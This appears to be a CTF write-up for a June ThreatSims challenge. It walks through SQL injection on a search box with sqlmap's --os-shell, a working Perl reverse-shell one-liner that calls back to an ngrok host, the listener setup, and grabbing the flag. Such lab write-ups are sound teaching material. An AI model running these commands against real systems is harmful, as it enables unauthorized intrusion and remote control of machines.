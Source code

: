 # ctf.threatsims.com - June CTF
This is a summary of the June CTF by threat sims and the highlights worth mentioning. It ran June 27-28th 9AM - 3pm (30 hours).
# BB
## Gain Initial Shell Access
The website provided had only one endpoint with a search box. Seemed SQLi was probably the entry point. Issued a request with burp, exported and used sqlmap to pull everying out of the DB
![Burp Capture](bb/search_request.png)
```bash
sqlmap -i search_request.txt --all --os-shell
```
From there, a packet capture revealed the webshell, which was used to send a reverse shell back to us using the pentest monkey's perl reverse shell. We needed to configure and setup ngrok to failicate this. The alternative approach would be to setup an EC2 instance with a public IP the victim could reach back to e.g. run nc on the EC2 instance to catch the reverse shell.
```bash
# on localhost, launch ngrok and nc to catch the reverse shell
ngrok tcp 9090
nc localhost 9090
```
In browser, issued the following the command to the sqlmap webshell (had to issue it in a browser due to all the escaping required in bash to issue it over curl. Alternativly, if it was URL encoded in burp, it could have been fed into curl command I suppose)
```bash
perl -e 'use Socket;$i="2.tcp.ngrok.io";$p=11960;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
At this point, the flag was just in the serving file system, which means we could have curled for it too.
```bash
cat flag.txt

curl -v http://159.203.81.45:8081/flag.txt
```